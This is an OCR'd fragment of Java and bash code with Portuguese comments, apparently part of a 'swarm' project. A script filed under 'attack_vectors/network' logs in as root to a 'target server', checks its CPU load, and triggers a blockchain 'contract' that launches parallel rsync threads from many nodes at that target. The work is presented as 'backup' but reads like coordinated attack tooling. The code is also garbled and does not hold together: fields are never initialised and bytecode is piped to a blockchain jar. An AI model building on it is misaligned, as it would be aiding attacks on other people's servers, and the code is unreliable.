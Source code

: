            if ((nodeState & StateVector.FLAG_ATIVO) != 0 && // Node ativo
                StateVector.getCpuLoad(nodeState) < CPU_THRESHOLD && 
                (nodeState & StateVector.FLAG_QUARENTENA) == 0) {
                
                // SET FLAG TEMPORÁRIO (evite locking)
                swarmState[i] = StateVector.addFlag(nodeState, StateVector.FLAG_EXECUTANDO_TAREFA);
                selectedNodes[count++] = i;
            }
        }
        return (count == minNodes) ? selectedNodes : null;
    }
}

2. SMART CONTRACT DE BACKUP DINÂMICO

Lógica de Disparo:
bash

#!/bin/bash
# attack_vectors/network/backup_trigger.sh

# MONITORAMENTO EM TEMPO REAL (via /proc)
TARGET_CPU=$(ssh root@server-alvo "grep 'cpu ' /proc/stat | awk '{usage=(\$2+\$4)*100/(\$2+\$4+\$5)} END {print usage}'")

if (( $(echo "$TARGET_CPU > 30.0" | bc -l) )); then
  # CHAMADA DIRETA À BLOCKCHAIN (evite JSON/RPC)
  java -jar blockchain.jar executeContract \
    --bytecode $(xxd -p BackupContract.class) \
    --params "server-alvo;3;20"
fi

Contrato Java (JIT Compiled):
java

public class BackupContract implements Runnable {
    private static final String TARGET;
    private static final int NODES_REQUIRED;
    private static final int CPU_MAX;
    
    public void run() {
        TrashBlockchain blockchain = TrashBlockchain.getInstance();
        long[] state = blockchain.getSwarmState();
        
        int[] lowCpuNodes = SwarmSelector.findLowCPUNodes(state, NODES_REQUIRED);
        if (lowCpuNodes != null) {
            // BACKUP PARALELO (raw sockets)
            for (int nodeIndex : lowCpuNodes) {
                new Thread(() -> {
                    executeRsync(TARGET, nodeIndex); // Implementação direta via libc
                }).start();
            }
            
